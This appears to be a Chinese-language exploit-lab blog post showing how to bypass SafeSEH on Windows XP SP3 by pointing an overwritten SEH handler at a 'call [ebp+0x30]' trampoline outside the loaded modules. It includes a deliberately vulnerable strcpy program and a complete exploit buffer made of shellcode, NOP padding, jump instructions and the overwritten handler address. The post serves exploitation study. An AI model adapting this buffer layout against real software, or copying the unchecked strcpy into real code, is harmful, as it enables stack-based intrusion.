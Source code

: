 ```yaml
---
layout:		post
title:		利用加载模块之外的地址绕过SafeS.E.H
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char *input)
{
	char str[200];
	strcpy(str,input);
	__asm int 3
	int zero=0;
	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}

int main()
{
	test(shellcode);

	return 0;
}
```


### 0x01 分析栈布局

运行*.exe, OllyDbg自动附加调试, 可以看到所有模块都不是SafeSEH OFF状态

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x00.png)

利用OllyFindAddr工具搜索跳板指令

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x01.png)

在0x00280b0b找到一条call [ebp+0x30]指令

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x02.png)

继续单步下去完成strcpy

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x03.png)

shellcode的起始栈地址0x0012fe88

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x04.png)

最近的一个SE Handler 0x0012ff64

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x05.png)


### 0x02 exploit

组织224 byte的shellcode

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# shellcode
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# 208 byte
"\xe9\x2b\xff\xff\xff\x90\x90\x90"		# jmp -213(208+5)
"\xeb\xf6\x90\x90"		# jmp -10(8+2)
"\x0b\x0b\x28\x00"		# 0x00280b0b call [ebp+0x30], 最后的"\x00"截断不能将shellcode布置在下
```

再来调试过一遍, 当出现除0异常

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x06.png)

程序找到最近的S.E.H结构, 调用Handler, 这里已经覆盖成跳板call [ebp+0x30]

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x07.png)

当无法处理异常, 顺着S.E.H chain找到下一个S.E.H结构, 这里覆盖成短跳jmp -10

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x08.png)

再来一个长跳jmp -213, 直接跳到shellcode

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x09.png)

pwn~

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x0a.png)